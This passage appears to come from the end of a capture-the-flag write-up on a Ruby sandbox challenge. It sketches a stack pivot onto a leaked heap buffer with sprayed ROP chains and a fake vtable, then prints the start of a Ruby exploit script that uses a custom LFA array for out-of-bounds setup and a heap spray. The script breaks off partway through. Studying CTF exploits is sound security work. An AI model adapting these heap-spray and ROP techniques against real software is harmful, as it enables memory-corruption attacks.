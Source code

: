 now, the only thing we need to figure out is what to do after we are able to control the PC. since we need to read flag from 2003 and write flag to stdout, it's not bad to pivot the stack and ROP.

The detail of stack pivot is trivial, actually we have several ways to achieve this. I choose to pivot the rsp to the heap buffer we leaked before, and spray the ROP chains and fake vtable in the previous step. now, everything is clear, just write a wrapper to send the exp to the remote. and we will get the flag.


## Final Exploit 

**sample.rb0**

```ruby
def touint(value)
    if value<0
        return (0xffffffff+value+1)
    end
    return value
end
def toint(value)
    if value>0x7fffffff
        return (value-0xffffffff-1)
    end
    return value
end
def p64(value)
    result=""
    for i in 0...8 do
        result+=(value&0xff).chr
        value=value>>8
    end
    return result
end
def u64(value)
    result=0
    for i in 0...8 do
        result=result<<8
        result+=value[7-i].ord
    end
    return result
end
$ooa_size=0x50000
$spray_size=0x3000

$arr = LFA.new
$arr[0] = 0x12345678
$arr[$ooa_size] = 11

i=0
while i<=$ooa_size do
    $arr.remove i
    i+=0x10
end

i=0
spray_arr=Array.new($spray_size)
payload_size=0x1004
while i<=$spray_size do
	spray_arr[i]="O"*payload_size
	i+=1
end

i=0
$idx=0
```
